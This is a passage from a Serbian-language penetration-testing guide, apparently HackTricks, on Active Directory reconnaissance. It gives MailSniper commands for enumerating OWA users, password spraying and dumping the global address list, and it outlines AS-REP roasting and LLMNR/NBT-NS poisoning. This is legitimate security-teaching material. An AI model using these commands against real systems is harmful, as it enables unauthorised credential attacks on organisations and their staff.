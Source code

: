 * **OWA (Outlook Web Access) Server**

Ako pronađete jedan od ovih servera u mreži, takođe možete izvršiti **enumeraciju korisnika protiv njega**. Na primer, možete koristiti alat [**MailSniper**](https://github.com/dafthack/MailSniper):

```bash
ipmo C:\Tools\MailSniper\MailSniper.ps1
# Get info about the domain
Invoke-DomainHarvestOWA -ExchHostname [ip]
# Enumerate valid users from a list of potential usernames
Invoke-UsernameHarvestOWA -ExchHostname [ip] -Domain [domain] -UserList .\possible-usernames.txt -OutFile valid.txt
# Password spraying
Invoke-PasswordSprayOWA -ExchHostname [ip] -UserList .\valid.txt -Password Summer2021
# Get addresses list from the compromised mail
Get-GlobalAddressList -ExchHostname [ip] -UserName [domain]\[username] -Password Summer2021 -OutFile gal.txt
```

{% hint style="warning" %}
Možete pronaći liste korisničkih imena u [**ovom github repozitorijumu**](https://github.com/danielmiessler/SecLists/tree/master/Usernames/Names) \*\*\*\* i ovom ([**statistically-likely-usernames**](https://github.com/insidetrust/statistically-likely-usernames)).

Međutim, trebali biste imati **ime ljudi koji rade u kompaniji** iz koraka izviđanja koji ste trebali obaviti pre ovoga. Sa imenom i prezimenom možete koristiti skriptu [**namemash.py**](https://gist.github.com/superkojiman/11076951) da generišete potencijalno validna korisnička imena.
{% endhint %}

### Poznavanje jednog ili više korisničkih imena

Dobro, znate da već imate validno korisničko ime, ali nemate lozinke... Zatim pokušajte:

* [**ASREPRoast**](asreproast.md): Ako korisnik **nema** atribut _DONT\_REQ\_PREAUTH_, možete **zahtevati AS\_REP poruku** za tog korisnika koja će sadržati neke podatke šifrovane izvedenicom korisnikove lozinke.
* [**Password Spraying**](password-spraying.md): Pokušajte sa naj**češćim lozinkama** za svakog otkrivenog korisnika, možda neki korisnik koristi lošu lozinku (imajte na umu politiku lozinke!).
* Imajte na umu da takođe možete **izvršiti prskanje OWA servera** da biste pokušali da pristupite korisničkim mail serverima.

{% content-ref url="password-spraying.md" %}
[password-spraying.md](password-spraying.md)
{% endcontent-ref %}

### LLMNR/NBT-NS trovanje

Možda ćete moći **dobiti** neke izazovne **hešove** za pucanje **trovanjem** nekih protokola **mreže**:

{% content-ref url="../../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md" %}
[spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md](../../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md)
{% endcontent-ref %}
